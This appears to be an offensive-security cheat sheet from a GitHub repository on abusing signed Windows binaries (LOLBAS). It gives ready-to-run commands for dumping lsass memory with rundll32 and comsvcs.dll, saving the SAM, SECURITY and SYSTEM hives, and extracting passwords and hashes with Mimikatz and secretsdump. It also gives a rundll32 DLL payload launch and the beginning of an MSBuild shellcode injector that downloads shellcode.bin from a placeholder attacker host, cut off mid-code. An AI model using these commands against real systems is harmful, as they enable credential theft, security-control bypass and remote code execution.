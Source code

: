 ### LOLBAS
- Use Microsoft Signed Binaries to exploit https://lolbas-project.github.io/
- Can be used to bypass Applocker or WDAC

#### rundll32.exe and comsvcs.dll dumping lsass:
```
Get-Process | Select-String lsass
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <PROCESS ID> C:\Users\Public\lsass.dmp full
dir C:\Users\Public\lsass.dmp

Invoke-Mimikatz -Command '"sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords"'
```

#### Reg.exe dumping sam
```
reg save HKLM\SECURITY security.bak
reg save HKLM\SYSTEM system.bak
reg save HKLM\SAM sam.bak

Invoke-Mimikatz -Command '"lsadump::sam system.bak sam.bak"'
secretsdump.py -sam sam.bak -security security.bak -system system.bak local
```

#### rundll32.exe dll payload
```
C:\Windows\System32\rundll32.exe <FILE>.dll,StartW
```

### Msbuilt.exe
- Can be used to execute arbitrary C# code from a `.csproj` or `.xml` file.
```
msbuild.exe <FILE>
```

#### Example shellcode injector
```
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="MSBuild">
   <MSBuildTest/>
  </Target>
   <UsingTask
    TaskName="MSBuildTest"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
     <Task>
      <Code Type="Class" Language="cs">
        <![CDATA[

            using System;
            using System.Net;
            using System.Runtime.InteropServices;
            using Microsoft.Build.Framework;
            using Microsoft.Build.Utilities;

            public class MSBuildTest :  Task, ITask
            {
                public override bool Execute()
                {
                    byte[] shellcode;
                    using (var client = new WebClient())
                    {
                        client.BaseAddress = "http://<IP>";
                        shellcode = client.DownloadData("shellcode.bin");
                    }
      
```